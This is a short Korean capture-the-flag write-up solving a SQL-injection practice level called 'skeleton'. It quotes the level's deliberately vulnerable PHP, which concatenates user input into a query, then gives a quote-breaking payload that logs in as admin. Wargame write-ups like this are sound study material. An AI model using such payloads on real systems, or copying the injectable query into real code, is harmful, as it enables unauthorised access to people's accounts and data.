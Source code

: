 # Skeleton

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

조건문 뒤에 `and 1=0`이라는 구문이 있으니 무조건 쿼리가 안찾아질 것 이다. 따라서 `and 1=0`을 무효화시키고, `id`를 `admin`으로 넣어줘야한다. `and`로 이어져있는 구문사이에 `or`로 새로운 구문을 넣어주자

> ?pw=' or id='admin' or '1'='1

이렇게 하면 이런 결과가 나오게 된다.

> select id from prob\_skeleton where id='guest' and pw='' or id='admin' or '1'='1' and 1=0

클리어!

